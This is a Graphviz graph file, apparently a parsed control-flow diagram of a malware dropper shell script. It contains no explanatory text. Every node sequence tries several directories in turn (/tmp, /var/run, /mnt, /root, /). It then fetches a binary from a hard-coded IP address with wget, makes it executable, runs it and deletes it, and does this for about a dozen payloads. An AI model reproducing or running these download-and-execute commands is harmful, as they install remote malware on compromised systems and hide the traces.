digraph {
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 10 [label="||,"];
10 [label="wget http://185.165.29.47/bae "];
10 -> 12 [label=";,"];
12 [label="chmod +x bae "];
12 -> 14 [label=";,"];
14 [label="./bae "];
14 -> 16 [label=";,"];
16 [label="rm -rf bae "];
16 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 28 [label="||,"];
28 [label="wget http://185.165.29.47/gtdf "];
28 -> 30 [label=";,"];
30 [label="chmod +x gtdf "];
30 -> 32 [label=";,"];
32 [label="./gtdf "];
32 -> 34 [label=";,"];
34 [label="rm -rf gtdf "];
34 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 46 [label="||,"];
46 [label="wget http://185.165.29.47/hfbb "];
46 -> 48 [label=";,"];
48 [label="chmod +x hfbb "];
48 -> 50 [label=";,"];
50 [label="./hfbb "];
50 -> 52 [label=";,"];
52 [label="rm -rf hfbb "];
52 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 64 [label="||,"];
64 [label="wget http://185.165.29.47/fgd "];
64 -> 66 [label=";,"];
66 [label="chmod +x fgd "];
66 -> 68 [label=";,"];
68 [label="./fgd "];
68 -> 70 [label=";,"];
70 [label="rm -rf fgd "];
70 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 82 [label="||,"];
82 [label="wget http://185.165.29.47/weas "];
82 -> 84 [label=";,"];
84 [label="chmod +x weas "];
84 -> 86 [label=";,"];
86 [label="./weas "];
86 -> 88 [label=";,"];
88 [label="rm -rf weas "];
88 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 100 [label="||,"];
100 [label="wget http://185.165.29.47/dsf "];
100 -> 102 [label=";,"];
102 [label="chmod +x dsf "];
102 -> 104 [label=";,"];
104 [label="./dsf "];
104 -> 106 [label=";,"];
106 [label="rm -rf dsf "];
106 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 118 [label="||,"];
118 [label="wget http://185.165.29.47/fdr "];
118 -> 120 [label=";,"];
120 [label="chmod +x fdr "];
120 -> 122 [label=";,"];
122 [label="./fdr "];
122 -> 124 [label=";,"];
124 [label="rm -rf fdr "];
124 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 136 [label="||,"];
136 [label="wget http://185.165.29.47/hjg "];
136 -> 138 [label=";,"];
138 [label="chmod +x hjg "];
138 -> 140 [label=";,"];
140 [label="./hjg "];
140 -> 142 [label=";,"];
142 [label="rm -rf hjg "];
142 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 154 [label="||,"];
154 [label="wget http://185.165.29.47/yuj "];
154 -> 156 [label=";,"];
156 [label="chmod +x yuj "];
156 -> 158 [label=";,"];
158 [label="./yuj "];
158 -> 160 [label=";,"];
160 [label="rm -rf yuj "];
160 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 172 [label="||,"];
172 [label="wget http://185.165.29.47/awwd "];
172 -> 174 [label=";,"];
174 [label="chmod +x awwd "];
174 -> 176 [label=";,"];
176 [label="./awwd "];
176 -> 178 [label=";,"];
178 [label="rm -rf awwd "];
178 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 190 [label="||,"];
190 [label="wget http://185.165.29.47/23a "];
190 -> 192 [label=";,"];
192 [label="chmod +x 23a "];
192 -> 194 [label=";,"];
194 [label="./23a "];
194 -> 196 [label=";,"];
196 [label="rm -rf 23a "];
196 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 208 [label="||,"];
208 [label="wget http://185.165.29.47/sda "];
208 -> 210 [label=";,"];
210 [label="chmod +x sda "];
210 -> 212 [label=";,"];
212 [label="./sda "];
212 -> 214 [label=";,"];
214 [label="rm -rf sda "];
214 -> 216 [label=";,"];
216 [label="cd /tmp "];
216 -> 216
218 [label="cd /var/run "];
218 -> 220 [label="||,"];
220 [label="cd /mnt "];
220 -> 222 [label="||,"];
222 [label="cd /root "];
222 -> 224 [label="||,"];
224 [label="cd / "];
224 -> 226 [label="||,"];
226 [label="wget http://185.165.29.47/sees "];
226 -> 228 [label=";,"];
228 [label="chmod +x sees "];
228 -> 230 [label=";,"];
230 [label="./sees "];
230 -> 231 [label=";,"];
}
